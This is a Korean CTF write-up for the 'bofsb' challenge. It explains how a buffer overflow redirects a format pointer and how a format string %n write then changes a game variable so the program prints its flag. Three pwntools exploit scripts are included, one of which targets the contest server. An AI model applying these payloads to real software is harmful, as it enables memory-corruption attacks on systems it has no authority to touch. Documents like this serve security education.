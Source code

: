 # bofsb

**Category:** Attack

**Points:** 50

**Author:** matta

**Description:** 

> Do you wanna be a hacker? Win the game!
> 
> nc bofsb.sstf.site 1337
> 
> Download: [bofsb.zip](resource/bofsb.zip)
> 
> References:
>  1) [Buffer Overflow](https://ko.wikipedia.org/wiki/%EB%B2%84%ED%8D%BC_%EC%98%A4%EB%B2%84%ED%94%8C%EB%A1%9C)
>  2) [Format String Bug](https://ko.wikipedia.org/wiki/%ED%8F%AC%EB%A7%B7_%EC%8A%A4%ED%8A%B8%EB%A7%81_%EB%B2%84%EA%B7%B8) with a [Good Description](http://blog.naver.com/PostView.nhn?blogId=haks2198&logNo=220840244540&categoryNo=0&parentCategoryNo=0&viewDate=&currentPage=1&postListTopCurrentPage=1&from=postView)

## Write-up

게임을 이기면 해커가 될 수 있다고 한다. 건방진 언사와는 다르게 제공되는 파일을 풀어보면 친절히 IDA로 decompile한 소스 코드까지 주어져 있다.

첫부분에 showFlag()라는 예쁜 함수가 존재하는데, 코드를 쭉 보면 main() 함수에서 게임에 이기면 호출되도록 되어 있다.

게임에서 이기는 조건을 찾아보면 직전 if문의 playOthello(v4) 호출에서 v4가 33이되도록 하면 될것 같다.

v4는 scanf() 함수를 이용해서 입력 받는데, 1 또는 2가 아니면 프로그램이 종료되므로, 정상적인 실행 흐름에서는 33으로 만들 수 없으니 게임에서 이기기위해 취약점을 찾아 공격해보자.

힌트에서 Buffer Overflow와 Format String Bug에 대한 언급이 있었으니 여기에 집중해서 찾아보면 58라인의 이름을 입력받는 scanf()문에서 너비 제약이 없어 buffer overflow가 발생할 수 있을 것 같고, 그 아래에 format 문자열을 출력하는 print()문에서 format string buf가 발생할 수 있을 것 같다. 이들을 잘 이용해보자.

format이라는 포인터는 "Black" 또는 "White" 만을 가리키도록 되어있는데, 여기에 내가 원하는 문자열을 넣어주려면 format 포인터가 내가 입력한 문자열을 가리키도록 해야 한다. 이 프로그램에서 문자열을 입력할 수 있는 부분은 이름(v5)을 넣는 부분 밖에 없으니 format 변수의 값이 v5의 주소가 되도록 변경해주면 될 것 같다.

그렇게 하려면 v5 변수의 주소가 필요한데, 코드를 보면 이름 전에 출력해주는 magic code라는 값이 바로 v5의 주소이다.

main() 함수 시작부분을 보면, format 변수는 스택에서 v5 변수 바로 다음에 위치한다. v5 변수가 ebp-4C 번지부터 시작하고, format 변수가 ebp-C에서 시작하니, v5 변수는 0x4C - 0xC = 0x40의 크기를 갖는걸 알 수 있다. 그러므로, 이름을 입력받을 때 임의의 0x40개의 글자 다음에 v5 변수의 주소를 (x86 바이너리까 4바이트 litte-endian으로) 써주면 그 값이 format 변수를 덮어써서 이후의 print문에서 내가 입력한 문자열이 다시 출력되는 것을 볼 수 있다. (안타깝게도, v4 변수는 v5 변수보다 앞에 있어서 buffer overflow를 이용해서 덮어쓸 수 없다.)

```python
from pwn import *
r = process("./bofsb")

r.sendlineafter(" > ", "1")					#1 or 2, whatever
r.recvuntil("code: ")

v5_addr = int(r.readline().strip(), 16)		#get v5's address

payload = "A" * 0x40 + p32(v5_addr)
r.sendlineafter("name: ", payload)
r.interactive()
```

![img](resource/bof_try.png)

이제 print문에 들어가는 format string을 (0x40글자까지는) 마음대로 조작할 수 있게 되었으니 Format String Bug를 공격해서 v4 변수의 값을 33으로 바꿔보자.

format string의 맨 앞에 AAAA를 넣고, 몇 번째 argument로 AAAA가 출력되는지 확인해보자.  
(scanf() 함수는 공백문자를 기준으로 입력값을 구분하므로, 아래 코드에서처럼 ljust에 두 번째 인자로 공백이 아닌 문자를 꼭 써줘야 한다.)

```python
from pwn import *
r = process("./bofsb")

r.sendlineafter(" > ", "1")					#1 or 2, whatever
r.recvuntil("code: ")

v5_addr = int(r.readline().strip(), 16)		#get v5's address

payload = "AAAA:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x"
payload = payload.ljust(0x40, ":")
payload += p32(v5_addr)
r.sendlineafter("name: ", payload)
r.interactive()
```

![img](resource/fmt_try.png)

두번째 %x에서 AAAA가 hex 형태로 출력된 것을 확인할 수 있다. 그러므로, AAAA 자리에 덮어쓰고 싶은 주소값을 써주고, 두번째 인자로 "%n"을 써주면 %n 이전에 printf()문을 통해 출력된 문자열의 길이가 해당 주소에 기록될 것이다.

v4 변수는 ebp-50 번지에 있으므로, v5의 주소에서 4를 빼주면 v4의 주소를 계산할 수 있다. 4바이트로 주소값을 써주고, 첫번째 인자를 33 - 4 = 29 바이트만큼의 너비로 출력되도록 해보자. 그러고 나서 %n을 써주면, 지금까지 출력된 길이인 33이 v4 변수의 주소에 써지고 게임에서 이길 수 있을 것이다.

```python
from pwn import *

r = remote("bofsb.sstf.site", 1337)			#connect to server

r.sendlineafter(" > ", "1")					#1 or 2, whatever
r.recvuntil("code: ")

v5_addr = int(r.readline().strip(), 16)		#get v5's address

payload = p32(v5_addr - 4) + "%29x%n"		#33 - 4 = 29
payload = payload.ljust(0x40, ":")
payload += p32(v5_addr)
r.sendlineafter("name: ", payload)
r.interactive()
```

위와 같이 [코드](resource/ex.py)를 작성하여 실행해보면, 기대했던대로 showFlag() 함수가 호출되어 flag를 확인할 수 있다.

![img](resource/flag.png)
